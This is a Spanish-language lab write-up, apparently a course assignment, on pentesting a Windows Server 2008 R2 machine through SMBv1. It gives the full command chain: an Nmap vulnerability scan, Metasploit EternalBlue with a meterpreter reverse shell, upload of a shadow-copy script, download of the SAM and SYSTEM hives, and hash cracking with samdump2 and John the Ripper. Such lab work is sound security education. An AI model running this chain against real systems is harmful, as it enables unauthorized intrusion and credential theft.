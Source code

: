 ```yaml
---
title: Práctica Calificada #2 - Pentesting en Windows Server 2008 R2
date: 2024-11-03 19:45:00 -05:00
categories: [Seguridad]
tags: [Pentesting, SMB, Metasploit, Exfiltración]
---
```


## Pentesting en un Servidor Windows Server 2008 R2

**Objetivo:** Realizar un pentesting en un servidor con Windows Server 2008 R2 con el servicio SMBv1 habilitado. Identificar vulnerabilidades, explotarlas para obtener acceso y exfiltrar archivos SAM y SYSTEM.

### 2.1 Escaneo de Red y Enumeración de Servicios

Usaremos **Nmap** para descubrir servicios activos en el servidor y verificar si SMBv1 está habilitado.

- **Comando Nmap**:
    ```bash
    sudo nmap -p 445 --script=smb-vuln* 10.0.2.4
    ```
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_1.png)

- **Explicación**: `-p 445` escanea los puertos de SMB, y `--script=smb-vuln*` verifica si SMBv1 está activo. Si el output muestra `NT LM 0.12`, el servidor tiene SMBv1 habilitado.

### 2.2 Exploración de la Vulnerabilidad

Basándonos en el escaneo, identificamos si el servidor es vulnerable al exploit **EternalBlue (MS17-010)**.

- **Uso de Metasploit**:
    1. Iniciar Metasploit:
        ```bash
        msfconsole
        ```
    2. Seleccionar el módulo de exploit:
        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        ```
    - **Explicación**: Este módulo explota la vulnerabilidad MS17-010 en SMBv1 para obtener acceso remoto.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.3 Configuración del Exploit en Metasploit

Configuramos el exploit con los parámetros necesarios:

- **Configuración**:
    ```bash
    set RHOSTS 10.0.2.4
    set LHOST 10.0.2.9
    set payload windows/x64/meterpreter/reverse_tcp   (no lo use)
    ```
- **Explicación**:
    - `RHOSTS`: IP de la máquina objetivo.
    - `LHOST`: IP de la máquina atacante.
    - `payload`: se selecciona para obtener una reverse shell.

![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.4 Ejecución del Exploit

Ejecutamos el exploit para obtener una conexión **Meterpreter**.

- **Comando**:
    ```bash
    exploit
    ```
- **Indicador de éxito**: Ver un mensaje como `Meterpreter session X opened`, que confirma la conexión.

### 2.5 Exfiltración de Archivos SAM y SYSTEM

Para extraer los archivos SAM y SYSTEM, utilizamos un script **Volume Shadow Copy**.

1. **Subir el script vssown.vbs**:
    ```bash
    upload /path/to/vssown.vbs C:\\Windows\\Temp\\vssown.vbs
    ```
2. **Ejecutar el script**:
    ```bash
    execute -f "C:\\Windows\\Temp\\vssown.vbs"
    ```
3. **Copiar archivos SAM y SYSTEM**:
    ```bash
    download C:\\Windows\\Temp\\SAM /tmp/SAM
    download C:\\Windows\\Temp\\SYSTEM /tmp/SYSTEM
    ```

    ![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)

### 2.6 Análisis de los Archivos Exfiltrados

En la máquina atacante, usamos **samdump2** para extraer los hashes y luego intentamos descifrarlos con **John the Ripper**.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_10.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_11.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_12.png)

- **Extracción de Hashes**:
    ```bash
    samdump2 /tmp/SYSTEM /tmp/SAM > hashes.txt
    ```
- **Descifrar Hashes**:
    ```bash
    john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```

Estas herramientas permiten identificar y descifrar contraseñas de usuarios del sistema objetivo.
